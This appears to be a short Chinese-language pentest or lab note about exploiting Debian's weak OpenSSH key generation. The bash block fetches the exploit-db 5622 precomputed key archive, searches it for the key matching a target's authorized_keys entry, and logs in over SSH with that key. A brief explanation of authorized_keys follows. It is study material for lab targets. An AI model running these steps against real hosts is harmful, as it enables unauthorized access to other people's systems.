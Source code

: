 靶机中可以获取ssh存储的公钥文件 (/home/user/.ssh/authorized_keys)，伪随机数生成器，生成全部的私钥，进行碰撞对比公钥。

```bash
searchsploit -m 5622.txt
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
tar vjxf 5622.tar.bz2
grep -lr 'xxxxxxxxxxxxxxxxx'
ssh -i <priv_key> <user>@<ip>
```

# ssh asym encrypt

在远程主机上，每个用户通常都有一个名为 `.ssh` 的隐藏文件夹，其中包含了一些与 SSH 相关的文件，其中之一就是 `authorized_keys`。该文件包含了一系列的公钥，用于验证用户的身份。

当你尝试使用 SSH 密钥对进行身份验证时，远程主机会检查你提供的公钥是否存在于 `authorized_keys` 文件中。如果存在匹配的公钥，远程主机将验证成功，允许你登录系统。

`authorized_keys` 文件的权限应该设置为只有用户本人可读写（例如，权限设置为 600），以确保私钥的安全性。